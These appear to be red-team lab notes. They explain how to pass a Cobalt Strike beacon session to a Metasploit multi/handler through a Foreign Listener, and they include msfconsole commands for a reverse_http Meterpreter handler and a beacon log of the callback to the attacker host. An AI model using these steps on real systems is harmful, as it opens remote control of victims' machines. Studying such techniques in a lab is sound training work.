A `Foreign Listener` is essentially just passing a `Cobalt Strike` beacon session to a `Metasploit MSFconsole` session.


setup `msfconsole multi/handler` on `Attacker Linux` machine
```bash
attacker@ubuntu ~> sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST ens5
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://10.10.5.50:8080
```
create a new `listener` on cobaltstrike
![[Pasted image 20231129144617.png]]
`spawn msf` on bfarmer `WKSTN-2` Initial Access machine
```bash
[11/29 19:37:27] beacon> spawn msf
[11/29 19:37:27] [*] Tasked beacon to spawn (x86) windows/foreign/reverse_http (10.10.5.50:8080)
[11/29 19:37:27] [+] host called home, sent: 863 bytes
```
*Two downsides to the foreign listener is that it only supports x86 staged payloads (no x64 or stageless).*

![[Pasted image 20231129144855.png]]
